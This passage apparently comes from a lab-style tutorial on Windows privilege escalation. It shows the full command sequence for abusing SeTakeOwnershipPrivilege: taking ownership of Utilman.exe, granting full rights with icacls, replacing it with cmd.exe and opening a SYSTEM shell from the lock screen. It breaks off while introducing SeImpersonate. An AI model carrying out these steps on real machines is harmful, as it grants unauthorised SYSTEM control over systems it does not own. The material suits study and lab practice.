 PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
We'll abuse utilman.exe to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

utilman normal behaviour

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. 
As we can take ownership of any file, replacing it is trivial.

To replace utilman, we will start by taking ownership of it with the following command:

Command Prompt
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. 
To give your user full permissions over utilman.exe you can use the following command:

Command Prompt
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
After this, we will replace utilman.exe with a copy of cmd.exe:

Command Prompt
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
To trigger utilman, we will lock our screen from the start button:

lock screen

And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:

utilman shell



SeImpersonate / SeAssignPrimaryToken
These privileges allow a process to impersonate other users and act on their behalf. 
Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

Impersonation is easily understood when you think about how an FTP server works. 
The FTP server must restrict users to only access the files they should be allowed to see.

Let's assume we have an FTP service running with user ftp.
Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:
